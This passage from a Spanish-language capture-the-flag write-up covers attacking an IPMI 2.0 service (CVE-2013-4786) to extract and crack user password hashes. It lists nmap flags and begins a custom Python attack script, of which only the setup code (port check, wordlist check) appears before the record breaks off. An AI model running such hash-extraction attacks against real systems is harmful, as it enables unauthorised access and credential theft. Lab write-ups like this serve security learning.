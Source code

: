 > -sU : Escaneo por el protocolo **UDP**
>
> \-\-script \<script\_name\> : Aplicar un script en específico de nmap
>
> -p \<port\> : Expecificar puerto a escanear

## Foothold

* * *

Observamos que es vulnerable el servicio **Intelligent Platform Management Interface IPMI 2.0** y para ello existe una vulnerabilidad que nos permite autenticarnos con cualquier usuario y extraer contraseñas hash de usuarios **_(CVE-2013-4786)_**

Para ello podemos usar `metasploit` pero a manera de prácticar hice un script en `python` con algunas referencias para conseguir un usuario existente, extraer su **token** y crackearlo con `john`:

```python
#!/usr/bin/python3

import signal, sys, os, time, nmap, pdb, shlex, subprocess, re
from colorama import Fore, init

# reset to dafault color
init(autoreset=True)

# colors
red, yellow, magenta, green = Fore.RED, Fore.YELLOW, Fore.MAGENTA, Fore.GREEN 

# help
def help_panel():
    print(f"\n{magenta}[*] Use : {yellow}{sys.argv[0]} <target> <password_wordlist>")
    sys.exit()

if len(sys.argv) != 3: help_panel() 

def signal_handler(signum, frame):
    print("\nSignum : {} , Frame : {}".format(signum, frame))
    print("\n{red}[!] Exiting...")
    exit(1)

#ctrl + c
signal.signal(signal.SIGINT, signal_handler)

# check connection
def checkConnection(target, port):
    print(f"\n{yellow}[+] Checking if port {magenta}{port} {yellow}is open...")
    time.sleep(2)
    scanning = nmap.PortScanner()
    result = scanning.scan(target, port, arguments='-sU')
    if result['scan'] == {} or result['scan'][target]['udp'][int(port)]['state'] == 'closed':
        print(f"\n{red}[-] Port {magenta}{port} {red}is closed!")
        sys.exit()

# check parameters
def checkParameters(target, port, user, wordlist):
    print(f"\n{yellow}[+] Using a list of {magenta}users {yellow}by default...")
    time.sleep(1)
    if wordlist:
        if not os.path.isfile(wordlist):
            print(f"\n{red}[!] The password wordlist {magenta}{wordlist} {red}is invalid ***")
            sys.exit()

# extract user hash
def getUserHash(target, port, user):
```